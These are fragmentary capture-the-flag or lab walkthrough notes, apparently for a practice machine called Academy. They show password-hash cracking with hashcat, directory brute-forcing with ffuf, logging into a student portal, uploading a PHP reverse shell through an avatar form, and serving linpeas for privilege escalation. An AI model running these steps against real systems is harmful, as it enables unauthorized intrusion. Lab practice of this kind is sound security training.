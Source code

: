 226 Transfer complete.

776 bytes received in 00:00 (492.72 KiB/s)

cat note.txt

Hello Heath !

Grimmie has setup the test website for the new academy.

I told him not to use the same password everywhere, he will change it ASAP.

I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES

('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.

Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?

We can always adapt it to our needs.

-jdelta

hash-identifier cd73502828457d15655bbd7a63fb0bc8

this is md5

hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt

cd73502828457d15655bbd7a63fb0bc8:student

dirb

or

ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u

academy                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 0ms]

phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 4ms]

[Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 6ms]

server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 7ms]

login to

username in note.txt: 10201321

pass: student

we have upload avatar form.

using php serverse shell

use linpeas to enum

python3 -m http.server 80
